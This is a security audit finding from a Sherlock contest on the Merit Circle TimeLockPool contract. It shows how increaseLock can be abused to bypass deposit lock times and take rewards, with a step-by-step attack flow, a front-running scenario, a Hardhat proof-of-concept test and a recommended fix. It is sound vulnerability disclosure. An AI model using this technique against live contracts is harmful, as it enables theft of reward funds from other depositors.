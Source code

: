 rvierdiiev

high

# Lock time can be avoided

## Summary
User is able to avoid locking his tokens due to `increaseLock` function.
## Vulnerability Detail
When user [deposit](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L85-L107) some amount of tokens it is going to be locked for some [duration](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L92).
The protocol suppose that user can't [withdraw](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L121-L123) that tokens during that time.

However it's possible to deposit and withdraw tokens without lock.

This is the flow.
1. Attacker from account1 makes deposit with value 1 token for a minimum time(10 minutes). Now deposit with index 0 is [created](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L98-L103) for account1. 
2. After 10 minutes attacker from account2 makes deposit for 1 token but for the max amount of time(to get big tokens [multiplier](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L96)). Now deposit with index 0 is for account2.
3. Attacker from account2 calls `increaseLock(0, account1.address, bigAmount)`. It's important here to provide `account1` address as `_receiver` for `increaseLock` [function](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L197-L222). The function will check that lock for `account2` 0's deposit is not [expired](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L206-L208) yet. Then it will mint big amount of reward tokens(because of big lock amount of the deposit) and will [add](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L217-L218) minted tokens and deposited tokens to the `_receiver` same deposit with index 0(this is important to have deposits with same id).
4. Attcker somehow use minted tokens(to get rewards for example)
5. Attacker from `account1` can withdraw all deposited tokens. 
## Impact
This mechanism can be used to deposit money just before reward distribution to get the share and then witdhraw deposited tokens.

It's possible to create a bot that will front run transactions when rewards are [toped up](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/base/BasePool.sol#L95-L98) to deposit big amount of stake tokens. Then after that get rewards and withdraw tokens. All this can be done in 1 block. The only condition for attacker is to have mock deposit account already expired, but not withdrawn.
## Code Snippet
This code will show that this is possible

```solidity
it.only("Increasing lock for another receiver will broke system", async() => {
            await timeLockPool.deposit(DEPOSIT_AMOUNT, constants.MaxUint256, account1.address);
            const startUserDepostit = await timeLockPool.depositsOf(account1.address, 0);
            console.log("account 1 deposit amount: " + Number(startUserDepostit.amount._hex));
            const startBalance = await timeLockPool.balanceOf(account1.address);
            console.log("account 1 pool token balance: " + Number(startBalance._hex));

            let startBalanceOfAnotherAccount = await timeLockPool.balanceOf(account2.address);
            expect(startBalanceOfAnotherAccount).to.be.eq(0)

            //change lock for account2
            await timeLockPool.deposit(1, 0, account2.address);
            await timeTraveler.increaseTime(60 * 10 * 2);
            let anotherAccountDeposit = await timeLockPool.depositsOf(account2.address, 0);
            console.log("account 2 deposit amount after first deposit: " + Number(anotherAccountDeposit.amount._hex));
            let timelockTokenBalance = await timeLockPool.balanceOf(account2.address);
            console.log("account 2 pool token balance after first deposit: " + Number(timelockTokenBalance._hex));

            await timeLockPool.increaseLock(0, account2.address, INCREASE_AMOUNT);
            anotherAccountDeposit = await timeLockPool.depositsOf(account2.address, 0);
            console.log("account 2 deposit amount after increase lock: " + Number(anotherAccountDeposit.amount._hex));
            timelockTokenBalance = await timeLockPool.balanceOf(account2.address);
            console.log("account 2 pool token balance after increase lock: " + Number(timelockTokenBalance._hex));
            
            await timeLockPool.connect(account2).withdraw(0, account2.address);

            timelockTokenBalance = await timeLockPool.balanceOf(account2.address);
            console.log("account 2 pool token balance after withdraw: " + Number(timelockTokenBalance._hex));

            const depositTokenBalance = await depositToken.balanceOf(account2.address);
            console.log("deposit token balance: " + depositTokenBalance);
        });
```
## Tool used

Manual Review

## Recommendation
Check that lock of `_receiver` has not expired yet. And also calculate multiplier for the `_receiver` based on his deposit lock duration. 